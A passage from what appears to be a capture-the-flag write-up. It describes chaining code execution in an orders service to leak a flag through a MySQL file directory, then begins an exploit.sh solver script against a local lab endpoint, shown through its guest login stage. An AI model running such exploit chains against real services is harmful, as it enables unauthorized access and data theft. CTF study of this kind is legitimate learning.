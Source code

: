 By combining all of these together, we can perform code execution in `orders_service` that will read the flag char by char from `authn_service` and then upload it to mysql container under `/var/lib/mysql-files/`. Afterwards, we can read the uploaded flag. Our exploit script will upload the oracle script chunk by chunk onto the `orders_service` container, run it, and poll for the flag in mysql. 

---

## 7. Solver Script

exploit.sh



```bash
#!/bin/bash

# ==============================================================================
# ---                           CONFIGURATION                                ---
# ==============================================================================

# --- Stage 1 & 2: Authentication and Template Processing ---
LOGIN_URL="http://127.0.0.1:1337/login"
TEMPLATE_FILE="payload_template.sh"
GENERATED_PAYLOAD_FILE="payload.sh"

# --- Stage 3: RCE Trigger ---
RCE_URL="http://127.0.0.1:1337/orders"


# ==============================================================================
# ---                       HELPER FUNCTION (URL ENCODE)                     ---
# ==============================================================================
urlencode() {
    local string="${1}"
    local strlen=${#string}
    local encoded=""
    local pos c o

    for (( pos=0 ; pos<strlen ; pos++ )); do
        c=${string:$pos:1}
        case "$c" in
            [-_.~a-zA-Z0-9] ) o="${c}" ;;
            * )               printf -v o '%%%02x' "'$c"
        esac
        encoded+="${o}"
    done
    echo "${encoded}"
}


# ==============================================================================
# ---                            MAIN SCRIPT LOGIC                           ---
# ==============================================================================

# --- STAGE 1: AUTHENTICATE AND GET SESSION ID ---
echo "--- Stage 1: Authenticating to get a new session ID ---"
SESSION_ID=$(curl -s -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data "username=guest&password=guest" \
  "$LOGIN_URL")

if [[ -z "$SESSION_ID" ]]; then
  echo "Error: Failed to retrieve a session ID from $LOGIN_URL. Aborting." >&2
  exit 1
fi
```